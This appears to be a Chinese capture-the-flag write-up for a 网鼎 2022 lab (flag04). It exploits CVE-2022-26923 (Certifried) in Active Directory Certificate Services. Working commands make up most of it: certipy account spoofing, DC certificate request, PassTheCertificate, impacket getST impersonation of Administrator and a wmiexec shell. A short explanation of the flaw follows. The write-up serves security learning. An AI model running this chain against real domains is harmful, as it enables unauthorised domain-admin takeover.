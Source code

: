 网鼎 2022 半决赛靶场 flag04

- 更改 DNS Host Name。

```ps1
# 方法一, 如果用方法一后面的Test2都要改为Test1, 当前脚本使用的是方法二即 Test2用户
# 执行powershell将之前创建的机器账号Test1的DNS Host Name为域控的XR-DC01.xiaorang.lab并删除SPN。
$searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]'')
$searcher.filter = '(&(objectClass=computer)(sAMAccountName={0}$))' -f "Test1"
$obj = [ADSI]$searcher.FindAll().Path
$spn = @()
$obj.servicePrincipalName | % { $spn += $_ }
$dns = $obj.dNSHostName.ToString()
$spn | % { $obj.servicePrincipalName.Remove($_) }
$obj.dNSHostName = "xr-dc01.xiaorang.lab"
$obj.SetInfo()

# 方法二
# 通过certipy-ad创建一个机器账号Test2，并且设置DNS Host Name为域控的 XR-DC01.xiaorang.lab。
pip3 install certipy-ad
proxychains certipy account create -u lixiuying@xiaorang.lab -p winniethepooh -dc-ip 172.22.15.13 -user Test2 -pass Test1234 -dns 'XR-DC01.xiaorang.lab'
```

- 用该机器账户向 XR-CA 请求证书。

```sh
## 申请域控制器账户的证书, 由于 Test2 的 dNSHostName 属性值已被修改为 xr-dc01.xiaorang.lab，因此以该账户申请证书时，将为我们颁发域控制器的计算机账户的证书。
proxychains certipy req -u Test2\$@xiaorang.lab -p Test1234 -target 172.22.15.18 -ca "xiaorang-XR-CA-CA" -template Machine
proxychains certipy auth -pfx xr-dc01.pfx -dc-ip 172.22.15.13 -debug # 遇到 KDC_ERR_PADATA_TYPE_NOSUPP 错误，显示 KDC 不支持 PADATA 类型（预认证数据）, Kerberos 预身份验证失败。使用第二种方法。我这里没法方法一(可在原文章找),直接用的方法二

certipy cert -pfx xr-dc01.pfx > cert.pem

# 密码为Test1234
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# 在远程桌面机器上复制 PassTheCertificate 和  cert.pfx 后执行
PassTheCertificate.exe -CertPath .\cert.pfx -CertPassword Test1234 -MachineAccount Test3$ -MachinePassword Test1234 -Target "CN=XR-DC01,OU=Domain Controllers,DC=xiaorang,DC=lab"

# kali: 配置 hosts
sudo vi /etc/hosts
172.22.15.35 XR-0687.xiaorang.lab
172.22.15.13 XR-DC01.xiaorang.lab

proxychains impacket-getST xiaorang.lab/Test3\$:Test1234 -dc-ip 172.22.15.13 -spn cifs/XR-DC01.xiaorang.lab -impersonate Administrator

export KRB5CCNAME=Administrator.ccache
proxychains impacket-wmiexec -k XR-DC01.xiaorang.lab  -dc-ip 172.22.15.13 -no-pass
```

# 介绍 CVE-2022-26923

该漏洞是由于对用户属性的不正确获取,允许低权限用户在安装了 Active Directory 证书服务（AD CS）的域环境中将权限提升至域管理员。

- Certifried-Active Directory Elevation of Privilege
- 默认情况下，域用户账户可以注册 User 证书模板，计算机账户可以注册 Machine 证书模板。
  两个证书模板都允许执行客户端身份验证。
- 在申请计算机证书时，ADCS 将计算机对象的 dNSHostName 属性的值添加到证书的主题备用名称中。当我们使用证书进行身份验证时，KDC 会尝试将这个 dNSHostName 属性值从证书映射到目标账户。
- 因此，如果我们将某个可控计算机账户（PENTEST01 ＄）的 dNSHostName 值改为与域控制器的计算机账户相同的 dNSHostName 值，那么就意味着我们可以欺骗 AD CS，并最终申请到域控制器的 AD 证书。
